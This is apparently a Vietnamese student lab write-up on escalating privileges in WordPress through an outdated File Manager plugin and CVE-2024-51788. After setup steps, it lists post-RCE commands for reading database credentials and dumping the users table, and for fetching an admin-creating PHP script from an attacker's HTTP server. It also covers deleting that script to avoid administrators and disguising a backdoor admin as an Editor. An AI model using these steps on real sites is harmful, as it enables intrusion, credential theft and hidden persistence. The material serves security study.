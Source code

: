 # WordPress-Privilege-Escalation

**Author:** Dang Duy Hau <br>
**Affiliation:** Hanoi University of Science and Technology <br>

Thank you, Dr. Vu Thanh Nam, for helping me develop this project.

## Set up environment

1. Cài WordPress thủ công trên Ubuntu

- Máy ảo VirtualBox (dùng Ubuntu 20.04LTS)
- Cài Apache, MySQL, PHP
- Cấu hình MySQL
- Tạo database

2. Tải WordPress và giải nén

3. Cấu hình Apache Virtual Host (nếu cần)

- Kích hoạt:
  sudo a2ensite wordpress.conf
  sudo a2enmod rewrite
  sudo systemctl restart apache2

4. Cài đặt WordPress trong trình duyệt
   Truy cập http://localhost để hoàn tất setup → nhập thông tin DB: DB name, username, password

5. Tải Plugin File Manager bản cũ (<= 6.8)
   Giải nén và cài:
   unzip wp-file-manager.6.8.zip
   sudo mv wp-file-manager /var/www/html/wp-content/plugins/
   sudo chown -R www-data:www-data /var/www/html/wp-content/plugins/wp-file-manager

6. Xử lý lỗi
   Khi truy cập http://localhost thì xảy ra lỗi:
   Hiện bạn đang thấy trang mặc định của Apache2, không phải trang cài đặt WordPress. Điều này có nghĩa là Apache đang phục vụ file mặc định /var/www/html/index.html thay vì WordPress. Đây là lỗi phổ biến, và bạn chỉ cần xử lý một bước sau để chuyển hướng đúng đến WordPress.
   Nguyên nhân: Trang Apache mặc định vẫn tồn tại trong /var/www/html/ chứa file: /var/www/html/index.html
   Trong khi WordPress nằm ở: /var/www/html/wordpress/ hoặc /var/www/html/ (nếu bạn đã move toàn bộ)
   Cách xử lý lỗi để hiển thị trang cài đặt WordPress:
   
   Bước 1: Xóa file mặc định index.html: sudo rm /var/www/html/index.html, File này đang "chắn đường" WordPress, nên Apache hiển thị nó thay vì WordPress index.php.
   Bước 2: Kiểm tra thư mục chứa WordPress:
   Nếu bạn chạy: ls /var/www/html/
   Bạn nên thấy:
   index.php wp-config-sample.php wp-content/ wp-includes/ wp-admin/ ...
   Nếu thấy wordpress/ thì bạn cần move lại:
   sudo mv /var/www/html/wordpress/_ /var/www/html/
   sudo mv /var/www/html/wordpress/._ /var/www/html/ 2>/dev/null
   sudo rmdir /var/www/html/wordpress/
   Bước 3: Cấp quyền lại cho Apache
   sudo chown -R www-data:www-data /var/www/html/
   sudo find /var/www/html/ -type d -exec chmod 755 {} \;
   sudo find /var/www/html/ -type f -exec chmod 644 {} \;
   Bước 4: Khởi động lại Apache
   sudo systemctl restart apache2
   Bước 5: Truy cập lại trình duyệt
   Mở lại trình duyệt:
   👉 http://localhost

Bạn sẽ thấy giao diện cài đặt WordPress:
Chọn ngôn ngữ → Nhập thông tin database → Tạo admin user
=>>> Okela
Một số lệnh tạo môi trường để thực hiện pentest:
python3 -m venv myenv
source myenv/bin/activate
pip3 install -r requirements.txt

Cách truy vấn cơ sở dữ liệu khi đã RCE:

- Khi đã có quyền www-data: dò tìm các thông tin liên quan đến CSDL: username, password, tên CSDL, được thông tin:
  (hau)cat /var/www/html/wp-config.php | grep DB\_

- Sau đó truy cập với quyền này vào CSDL, liệt kê các bảng trong CSDL:
  (hau)mysql -u wpuser -p'qwerty' -e "SHOW TABLES;" wordpress

- Rồi tiếp tục trích xuất thông tin nhạy cảm từ các bảng của CSDL, do với mục đích leo thang lấy quyền admin nên chúng ta sẽ khai thác trên bảng dữ liệu này, lấy thông tin của bảng user:
  (hau)mysql -u wpuser -p'qwerty' -e 'DESCRIBE wp_users;' wordpress

- Xem các thông tin bảng Users:
  (hau)mysql -u wpuser -p'qwerty' -e 'SELECT \* FROM wp_users;' wordpress

---

Trong quá trình khai thác hệ thống thông qua lỗ hổng RCE (Remote Code Execution), không thể sử dụng giao diện tương tác của MySQL bằng cách gọi trực tiếp lệnh mysql -u wpuser -p'qwerty' wordpress và sau đó nhập từng câu lệnh SQL như SHOW TABLES; do hạn chế của môi trường thực thi. Cụ thể, khi truy cập qua webshell hoặc kênh RCE, môi trường shell không cung cấp đầy đủ các tính năng của một terminal tương tác, chẳng hạn như không hỗ trợ TTY, không có đầu vào chuẩn (stdin) và đầu ra chuẩn (stdout) truyền thống. Do đó, các lệnh SQL nhập vào sau khi khởi động MySQL shell sẽ không được thực thi hoặc không hiển thị kết quả.
Thay vào đó, sử dụng cú pháp dòng lệnh dạng non-interactive với tùy chọn -e, cho phép thực hiện truy vấn SQL trực tiếp trong một lần gọi lệnh, ví dụ: mysql -u wpuser -p'qwerty' -e 'SHOW TABLES;' wordpress. Phương pháp này giúp MySQL thực thi lệnh ngay lập tức và trả về kết quả ra đầu ra chuẩn, phù hợp với điều kiện hạn chế của môi trường RCE. Việc sử dụng lệnh -e trong mọi truy vấn SQL là cần thiết để đảm bảo quá trình truy xuất dữ liệu từ cơ sở dữ liệu được thực hiện trơn tru và có thể quan sát được kết quả.

Kiểm tra quyền admin của các user hiện tại:
(hau)mysql -u wpuser -p'qwerty' -e "SELECT \* FROM wp_usermeta WHERE meta_key='wp_capabilities';" wordpress

---

- thêm người dùng:
  Dưới đây là một file PHP đơn giản dùng để tạo tài khoản admin mới trong WordPress, bằng cách sử dụng đúng hàm wp_create_user() và wp_insert_user() của WordPress – đảm bảo đúng chuẩn hệ thống và tránh lỗi hash password.

1. Tạo file PHP tên add-admin.php với nội dung như trong file đã cung cấp (add-admin.php)
2. Upload file này lên thư mục gốc WordPress: Qua webshell / RCE → đưa add-admin.php vào cùng nơi với wp-load.php: /var/www/html/
3. Truy cập file này trên trình duyệt: http://target-site.com/add-admin.php
   Nếu thành công, bạn sẽ thấy: Administrator account created successfully!
4. Đăng nhập WordPress:
   Địa chỉ đăng nhập: http://target-site.com/wp-login.php

Gỡ file ngay sau khi xong: Vì file này cho phép tạo admin, bạn cần xóa nó để tránh bị người khác khai thác, hoặc bị phát hiện bởi quản trị viên server, có thể để xóa tự động:
rm /var/www/html/wordpress/add-admin.php

Dùng webshell để tải file từ máy tấn công:
Bước 1: Tạm thời mở HTTP server trên máy tấn công
Trên máy tấn công, chạy: python3 -m http.server 8000
→ Lúc này file add-admin.php sẽ có URL là: http://<YOUR-IP>:8000/add-admin.php
Bước 2: Dùng webshell hoặc RCE để tải về
Trên máy nạn nhân (qua shell), chạy: http://<YOUR-IP>:8000/add-admin.php -O /var/www/html/addwget-admin.php
Bước 3: Truy cập script trên trình duyệt: http://<VICTIM-DOMAIN>/add-admin.php
Bước 4: Xóa script sau khi dùng xong: rm /var/www/html/add-admin.php

---

Dưới đây là một script SQL bạn có thể chạy (qua RCE hoặc MySQL shell) để tạo một tài khoản trông như là "Editor" nhưng thực ra có đầy đủ quyền "Administrator" – một kỹ thuật "stealth admin" thường được dùng để ẩn backdoor khỏi mắt người kiểm tra.
Ngữ cảnh:
Bạn đã RCE được và có quyền truy cập database.
Bạn muốn tạo một tài khoản editor giả mạo để lẩn tránh, nhưng vẫn có quyền admin đầy đủ.
Khi đăng nhập:
Giao diện hiển thị như Editor
Nhưng thực ra có thể làm mọi thứ như Admin (nếu plugin/theme không che giấu)
Mẹo ẩn mình:
Có thể đổi display_name thành Support, Bot, Editor Helper...
Không dùng tên kiểu admin, root, superuser dễ gây nghi ngờ.

Dưới đây là file PHP stealth admin script - nó sẽ (file này xin phép không cung cấp):

Tạo tài khoản WordPress mới có tên hiển thị như một editor bình thường

Nhưng thực chất có đặc quyền administrator

Và gửi thông báo về máy tấn công (tuỳ chọn, dễ mở rộng)

Tự động xóa chính nó sau khi chạy xong

---

Trong mã khai thác mà đang sử dụng, đường dẫn /wp-admin/options-general.php?page=licence được sử dụng để tải tệp lên thông qua một form trong trang quản trị của WordPress. Tuy nhiên, WordPress yêu cầu đăng nhập trước khi cho phép truy cập vào trang quản trị này, và do đó lỗi yêu cầu trang đăng nhập xảy ra. Điều này có thể xử lý bằng đăng nhập với các cookie sinh ra bằng các hàm ngẫu nhiên nhằm vượt qua xác thực.
Mặc dù mô tả trong CVE-2024-51788 có nói rằng lỗ hổng cho phép không cần xác thực để tải lên tệp, lỗi xác thực không đúng có thể xảy ra trong plugin hoặc cấu hình của hệ thống, khiến khi gửi yêu cầu tới /wp-admin/options-general.php?page=licence WordPress vẫn yêu cầu đăng nhập.
Lý do tại sao mã khai thác vẫn yêu cầu đăng nhập:
Lỗi xác thực không đúng có thể có trong plugin hoặc trong WordPress. Cụ thể:
Plugin không kiểm tra đúng quyền truy cập khi tải lên tệp. Có thể plugin đã cấu hình endpoint /wp-admin/options-general.php?page=licence mà không thực sự bỏ qua xác thực (hoặc bỏ qua kiểm tra quyền truy cập).
WordPress mặc định yêu cầu đăng nhập vào admin trước khi có thể truy cập vào các trang quản trị (bao gồm trang cấu hình của plugin).
Cách khắc phục: Sửa mã khai thác
Để bỏ qua yêu cầu đăng nhập, bạn sẽ cần phải đăng nhập tự động hoặc tắt yêu cầu đăng nhập nếu có vấn đề với plugin hoặc WordPress.
Xử lý đăng nhập tự động:
Như đã đề cập trong các bước trước, có thể sử dụng cookies hợp lệ hoặc đăng nhập tự động vào WordPress để bỏ qua trang login.
Giải pháp tạm thời:
Mục đích là để bypass (vượt qua) trang đăng nhập mà không cần thực sự đăng nhập thủ công. Điều này có thể được thực hiện bằng cách:
Sử dụng cookies hợp lệ: Mã khai thác sẽ gửi một cookie ngẫu nhiên hoặc giả mạo một người dùng đã đăng nhập.
Sử dụng session: Gửi yêu cầu đăng nhập hợp lệ để lấy cookies, và sau đó tiếp tục gửi yêu cầu tải lên mà không bị yêu cầu đăng nhập lại.
Tuy nhiên, như đã giải thích trước, việc này không hoàn toàn phù hợp với mô tả của CVE, vì CVE này mô tả lỗ hổng không yêu cầu xác thực và bypass được xác thực để tải tệp lên. Nếu muốn khắc phục vấn đề này theo đúng mô tả CVE, chúng ta sẽ cần kiểm tra lại cấu hình plugin hoặc cấu hình của WordPress.
